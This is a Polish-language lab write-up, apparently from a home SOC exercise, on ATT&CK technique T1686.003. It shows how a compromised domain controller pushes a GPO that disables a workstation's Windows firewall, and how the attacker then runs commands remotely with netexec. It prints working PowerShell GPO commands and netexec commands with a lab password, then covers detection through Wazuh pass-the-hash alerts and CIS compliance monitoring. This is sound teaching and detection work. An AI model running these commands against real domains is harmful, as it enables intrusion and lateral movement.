






# T1686.003 – Disable or Modify System Firewall (Windows Host Firewall)

**Taktyka:** Defense Impairment · **Technika:** T1686.003 Disable or Modify System Firewall *(w starszym nazewnictwie ATT&CK: T1562.004)*

## Cel

Stacja **WS01** była niedostępna z sieci — jej firewall blokował cały ruch przychodzący (SMB, WinRM, a nawet ping). Żeby się na nią dostać, trzeba było najpierw wyłączyć jej zaporę. Nie dało się tego zrobić bezpośrednio (wszystko przychodzące było blokowane), więc wykorzystałem **przejęty wcześniej kontroler domeny**.

## Atak

Mając uprawnienia administratora domeny, z Kali (przez sesję evil-winrm na DC) utworzyłem **politykę grupy (GPO)** wyłączającą firewall i podpiąłem ją do całej domeny:

```powershell
New-GPO -Name "DisableFW" | New-GPLink -Target "DC=corplab,DC=local"
Set-GPRegistryValue -Name "DisableFW" -Key "HKLM\Software\Policies\Microsoft\WindowsFirewall\DomainProfile" -ValueName "EnableFirewall" -Type DWord -Value 0
Set-GPRegistryValue -Name "DisableFW" -Key "HKLM\Software\Policies\Microsoft\WindowsFirewall\StandardProfile" -ValueName "EnableFirewall" -Type DWord -Value 0
```



WS01 przy kolejnym pobraniu zasad z DC (ruch **wychodzący**, którego firewall nie blokuje) **sam zastosował politykę i wyłączył swoją zaporę** — napastnik nie dotyka stacji bezpośrednio, tylko zastawia „pułapkę” w zasadach domeny.



Po zdjęciu firewalla stacja stała się dostępna i połączyłem się z nią z Kali:

```bash
nxc smb 192.168.56.11 -u Administrator -p 'vagrant123!'
nxc smb 192.168.56.11 -u Administrator -p 'vagrant123!' -x "hostname & whoami"
```



Komenda wykonała się na WS01 (`Executed command via wmiexec`, wynik `corplab\administrator`) — pełne wykonanie kodu na wcześniej niedostępnej maszynie. Widać też `signing:False` (WS01 nie wymaga podpisywania SMB — kolejna słabość, otwiera drogę do ataków relay):



## Detekcja

Ślady są w dwóch miejscach:

- **Ruch boczny na WS01** — serię alertów **92652 (pass-the-hash)** z wejść po zdjęciu firewalla; WS01 widzi atak z własnej perspektywy:



- **Spadek postury bezpieczeństwa** — moduł **SCA (Security Configuration Assessment)** Wazuha zauważył, że po wyłączeniu firewalla ocena zgodności WS01 wg CIS **spadła poniżej 30%** i podniósł alert **poziomu 9**. To trzeci sposób detekcji, obok logów i korelacji: *monitoring konfiguracji* — „nie widzę konkretnego zdarzenia, ale widzę, że maszyna nagle stała się dużo mniej bezpieczna”:



> Samo wyłączenie firewalla nie zostało zalogowane jako zdarzenie (brak audytu MPSSVC), ale atak wykryto **pośrednio, przez skutki** — to dojrzałe podejście SOC, gdy brakuje bezpośredniego logu.

## Wniosek

- Napastnik **nie przebił firewalla siłą**, tylko wykorzystał to, że stacja i tak musi komunikować się z kontrolerem domeny.
- Pokazuje to, jak groźne jest przejęcie konta **administratora domeny**: pozwala zdalnie osłabić obronę innych maszyn, nie dotykając ich bezpośrednio.
